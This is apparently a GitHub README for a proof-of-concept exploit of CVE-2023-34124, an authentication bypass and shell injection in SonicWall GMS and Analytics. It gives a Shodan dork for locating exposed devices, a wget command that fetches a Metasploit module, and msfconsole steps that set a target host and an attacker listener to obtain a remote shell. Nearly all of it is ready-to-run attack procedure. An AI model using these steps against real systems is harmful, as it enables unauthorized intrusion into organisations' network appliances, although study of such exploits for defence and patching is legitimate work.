 # CVE-2023-34124

![](https://img.shields.io/static/v1?label=Product&message=Sonicwall&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=GMS:%209.3.2-SP1%20and%20earlier;%20Analytics:%202.5.0.4-R7%20and%20earlier&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Authentication%20Bypass&color=red)

- Shodan dork:
```
http.favicon.hash:631108382
```	
### Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Sonicwall_Shell_Injection/sonicwall_shell_injection_cve_2023_34124.rb
```
```
cp sonicwall_shell_injection_cve_2023_34124.rb /usr/share/metasploit-framework/modules/exploits/multi/http/
```
### Usage
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/http/sonicwall_shell_injection_cve_2023_34124
```
```
exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set rhosts target_IP
```
```
exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set lhost attacker_IP
```
```
exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > run
```
